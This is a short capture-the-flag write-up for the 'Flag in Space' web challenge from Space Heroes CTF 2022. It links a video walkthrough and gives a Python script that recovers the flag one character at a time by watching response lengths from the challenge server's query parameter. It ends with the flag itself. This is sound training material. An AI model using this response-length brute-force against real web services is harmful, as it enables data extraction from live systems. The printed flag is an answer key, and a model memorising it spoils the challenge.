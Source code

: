```yaml
---
name: Flag in Space (2022)
event: Space Heroes CTF 2022
category: Web
description: Writeup for Flag in Space (Web) - Space Heroes CTF (2022) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Flag in Space

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/8oycV0Bsb5k/0.jpg)](https://youtu.be/8oycV0Bsb5k "Space Heroes CTF 2022: Flag in Space")

## Solution

{% code overflow="wrap" %}
```py
from pwn import *
import requests
import string

context.log_level = 'debug'
url = 'http://172.105.154.14/?flag=shctf{'

response = requests.get(url + '\x00')  # Initial request
correct_response = len(response.text)
info('intitial response length: %d', correct_response)

# Loop until we see the flag
while '}' not in url:
    # Loop possible chars (string.printable)
    for char in '{_}' + string.ascii_lowercase + string.digits:
        response = requests.get(url + char)
        # If this is the correct char, update
        if len(response.text) > correct_response:
            correct_response = len(response.text)
            url = url + char
            info(url)
            break

# Flag plz
warn(url)
```
{% endcode %}

Flag: `shctf{2_explor3_fronti3r}`
